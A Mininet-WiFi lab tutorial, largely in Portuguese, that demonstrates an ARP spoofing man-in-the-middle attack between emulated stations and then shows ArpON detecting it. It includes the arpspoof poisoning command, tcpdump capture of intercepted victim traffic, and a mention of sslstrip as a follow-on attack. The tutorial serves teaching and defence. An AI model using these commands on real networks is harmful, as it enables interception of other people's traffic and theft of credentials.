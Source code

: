 ```yaml
---
tags: security-tutorials
---
```


# ARP Spoofing

**In this short demo you will:** 
- How to perform ARP Spoofing attack

**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- dsniff
- arpon


First of all you need to identify the network topology that will be generated by the code below:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from mininet.log import setLogLevel, info
from mn_wifi.node import OVSKernelAP
from mn_wifi.link import wmediumd
from mn_wifi.cli import CLI
from mn_wifi.net import Mininet_wifi


def topology():
    "Create a network."
    net = Mininet_wifi()

    info("*** Creating nodes\n")
    ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                             channel='1', position='10,10,0',
                             failMode="standalone")
    sta1 = net.addStation('sta1', position='10,20,0')
    sta2 = net.addStation('sta2', position='10,30,0')

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Starting network\n")
    net.build()
    net.addNAT().configDefault()
    ap1.start([])
    
    sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('info')
    topology()
```


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. Considerando que o nome do arquivo seja `arp.py` nós o executaríamos da seguinte forma:

```
sudo python arp.py
```

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

```
mininet-wifi> sta1 ping -c1 8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms
```


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0
```

Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

```
mininet-wifi> xterm sta2 sta2
```

Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

```
sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3
```

O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

```
mininet-wifi> sta1 arp -a
_gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0
```

Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se ele está recebendo tráfego enviado pela vítima.

```
sta2# tcpdump -i sta2-wlan0
20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64
```

```
mininet-wifi> sta1 ping -c10 8.8.8.8
```

Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por ele, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como sslstrip para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure). Vale a pena citar também que esse tipo de ataque pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON).


Para ver como evitar esse tipo de ataque você pode utilizar o arpon. Para tanto, basta executá-lo em `sta1` antes do ataque ser realizado.


```
mininet-wifi> xterm sta1
arpon -D -i sta1-wlan0
```

Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


```
arpon -D -i sta1-wlan0
Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
```
